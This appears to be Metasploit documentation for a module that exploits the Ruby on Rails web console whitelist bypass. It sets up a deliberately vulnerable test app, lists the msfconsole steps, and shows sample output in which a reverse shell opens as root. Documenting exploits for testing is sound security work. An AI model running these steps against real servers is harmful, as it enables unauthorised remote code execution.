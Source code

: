 ## Description

 This module exploits an IP whitelist bypass vulnerability in the developer web console included with Ruby on Rails 4.0.x and 4.1.x. This module will also achieve code execution on Rails 4.2.x if the attack is launched from a whitelisted IP range.

## Verification Steps

**Prerequisites:**

```
gem install rails -v 4.2.6
rails new taco
cd taco
vim config/environments/development.rb
```

Add the following line just before the final `end' tag:
  config.web_console.whitelisted_ips = %w(0.0.0.0/0)

```
$ bundle
$ rails server
```

**Installing nodejs:**

```
sudo apt-get install nodejs
```

**Launch msfconsole:**

1. Do: ```use exploit/multi/http/rails_web_console_v2_code_exec```
2. Do: ```set RHOST [IP]```
3. Do: ```set RPORT [Port]```
4. Do: ```run```

## Sample Output

### Rails version 4.2.6

```
msf > use exploit/multi/http/rails_web_console_v2_code_exec 
msf exploit(rails_web_console_v2_code_exec) > set RHOST 192.168.0.106
msf exploit(rails_web_console_v2_code_exec) > set RPORT 35678
msf exploit(rails_web_console_v2_code_exec) > run

[*] Started reverse TCP handler on 192.168.0.102:4444
[*] Sending payload to /__web_console/repl_sessions/d89c2f96387f4b9dd612c0abb7c06577
[*] Command shell session 1 opened (192.168.0.102:4444 -> 192.168.0.106:35678) at 2017-04-07 04:13:52 +0800

id
uid=0(root) gid=0(root) groups=0(root)
```
